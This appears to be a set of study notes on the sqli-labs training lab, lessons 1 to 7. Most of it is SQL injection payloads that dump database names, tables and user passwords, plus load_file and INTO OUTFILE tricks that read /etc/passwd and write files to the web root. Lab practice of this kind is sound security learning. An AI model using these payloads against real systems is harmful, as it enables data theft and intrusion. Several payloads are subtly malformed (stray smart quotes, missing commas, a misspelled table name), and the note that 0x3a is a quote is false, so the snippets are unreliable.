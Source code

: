 # sqli_labs
## lesson1
### Error-Based: Single Quotes,String
  * ?id=1 or any other number gives the respective username and password, similar to the query: select * from TABLE where id=1;
  * In the url after trying some special cases, we find that odd number of single quotes breaks the query and also string input throwing error.
  * Error:  right syntax to use near ””) LIMIT 0,1′ at line 1.
  * ?id=1′)–-+  : this gives us back the username and password. (here -- is used to comment out rest of the things).
  * Commonly used injections like ' OR '1'='1--
  * OR '1'='1' /*  in url after execution it would be like ?OR%20%271%27=%271%27%20/*
  * ?id=-1' union select 1,2,database() --+
  * SELECT username,password from 'users' WHERE '?id'=0 OR 1=1; (here 1=1 is equivalent to true).
  * SELECT username,password from 'users' WHERE ?id=9 trying out different id no.s we get the desired output when id is 9.

## lesson2
### Error-Based: IntegerBased
  * when we give ?id=1- we see the error as right syntax to use near'LIMIT 0,1' at line 1 (query broke)
  * error that extra " and 'quotes are present which means that the input is enclosed in them.
  * Select * from TABLE where id = 1’ ;
  * so there is use of integer for the query
  * Select * from TABLE where id = (some integer value);
  * SELECT username,password FROM TableName WHERE id=1--;
  * if we comment out the id number as (-- is used to comment out the input): http://localhost/sqli-labs/Less-2/?id=1 -- 
  * we receive the username and password.

## lesson3
### Error-Based: Single quotes (string)
  * when we give ?id=1- we see the error as right syntax to use near ””) LIMIT 0,1′ at line 1 (query broke)
  * Select login_name, select password from table where id= (‘our input here’)
  * So again we inject the code with this ?id=1′) -–+'    
  * we get back the output username and password.

## lesson4
### Error-Based: Double quotes (string)
  * After some unsuccessful attempts, we perform an error-based double quotes attack
  * ?id=1’’ injecting the code we can see a username and password.
  * we try to dump the database to retrieve some sensitive information. 
  * So here we use the union select command to dump the database like this: ?id=1’’) union select 1,2,3 –+
  * (here 1,2,3 is used since we assume 3 columns there, u can also try with 1,2)
  * Now we start mysql to dump database:
  * show databases;  -->to show databases
  * use security;  -->this helps to use the database security(which has important information)
  * show tables;  -->this helps to view the table, we can see four tables like users,emails,referers,uagents
  * We use system database, which is information_schema using the command: use information_schema;
  * See tables using "show tables;" command
  * Query : select table_name from information_schema, tables where table_schema = “security”;
  * inject the same query into the URL : ?id=1”) union select 1,table_name,3 from information_schema.tables where table_schema=’security’ --+
  * Query : ?id=1”) union select 1,group_concat(table_name)3 from information_schema.tables where table_schema=’security’ – -+  
  * (group together all the table names and dump it out as a string)
  * Query : ?id=1′ union select 1,group_concat(username),group_concat(password) from users –+

## lesson5
### Fixing the query without using comments
  * Error-based double quotes injection attack as shown below.
  * when ?id=2 or any other integer we get the message you are in ....
  * it is not similar to username and password as shown before
  * by giving the single quotes query gets broken, to see the developers format of query, we use escape character(\)
  * Query : ?id=1′ AND ‘2 (OR) ?id=3′ AND ‘4
  * 
  * After injecting this type of code, the database always shows different usernames and passwords.
  * URL : ?-6′ union select 5,current_user,3 AND ‘1
  * We use this query for getting the current username.

## lesson6
### Double quote injection
  * ?id=2 try giving in the url 
  * Injecting the query, we can see an sql error message on the screen.
  * We start from the count function, which just returns us the number of rows.
  * select count(*) from informatio_schema.tables;
  * select rand(); --> gives random values between 0 and 1
  * select floor(); -->  prints the integer part alone
  * select floor(rand()*2)as dumb; --> gives either 0 or 1 as output
  * select table_name, table_schema from information_schema.tables group by table_schema; --> can see only email under security database
  * Dumping the database in the form of a sql error:
     - select concat((select database()))  --> used to dump the string
     - select concat(0x3a,0x3a,(select database()),0x3a,0x3a)  --> here 0x3a is for quote
     - select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a  --> renamed as a
     - select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns
     - select count(*), concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;
     - select count(*), concat(0x3a,0x3a,(select table_name from),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;
     - select count(*), concat(0x3a,0x3a(select version()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns group by a; (dump version)
     - select count(*), concat(0x3a,0x3a(select user()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns group by a; (dump user)

## lesson7
### Using out file dump database
  * ?id=1′–+  (sql query broke)
  * use security;
  * select * from users;
  * select * from users limit 0,1 into dumpfile “/tmp/test2.txt”  (for dumping the database)
  * select load_file(“etc/passwd”);  (for loading files from the file system into mysql)
  * select load_file(“etc/passwd”) into outfile “tmp/test4.txt”; (combination of the above 2)
  * query will be : ?id=2′)) union select 1,2,3 into outfile “/var/www/sqli-labs/Less-7/union2.txt” –+
  * checking the Less-7/union2.txt file after this gives us the data or info as output





